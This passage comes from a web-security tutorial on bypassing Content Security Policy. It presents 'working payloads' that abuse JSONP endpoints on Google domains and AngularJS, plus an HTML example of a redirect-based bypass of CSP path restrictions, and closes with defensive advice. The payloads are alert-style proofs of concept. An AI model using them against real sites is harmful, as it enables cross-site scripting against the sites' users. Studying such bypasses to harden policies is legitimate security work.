 Working payloads:

```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```

Other JSONP arbitrary execution endpoints can be found in [**here**](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) (some of them were deleted or fixed)

### Bypass via Redirection

What happens when CSP encounters server-side redirection? If the redirection leads to a different origin that is not allowed, it will still fail.

However, according to the description in [CSP spec 4.2.2.3. Paths and Redirects](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects), if the redirection leads to a different path, it can bypass the original restrictions.

Here's an example:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta
      http-equiv="Content-Security-Policy"
      content="script-src http://localhost:5555 https://www.google.com/a/b/c/d" />
  </head>
  <body>
    <div id="userContent">
      <script src="https://https://www.google.com/test"></script>
      <script src="https://https://www.google.com/a/test"></script>
      <script src="http://localhost:5555/301"></script>
    </div>
  </body>
</html>
```

If CSP is set to `https://www.google.com/a/b/c/d`, since the path is considered, both `/test` and `/a/test` scripts will be blocked by CSP.

However, the final `http://localhost:5555/301` will be **redirected on the server-side to `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//`**. Since it is a redirection, the **path is not considered**, and the **script can be loaded**, thus bypassing the path restriction.

With this redirection, even if the path is specified completely, it will still be bypassed.

Therefore, the best solution is to ensure that the website does not have any open redirect vulnerabilities and that there are no domains that can be exploited in the CSP rules.
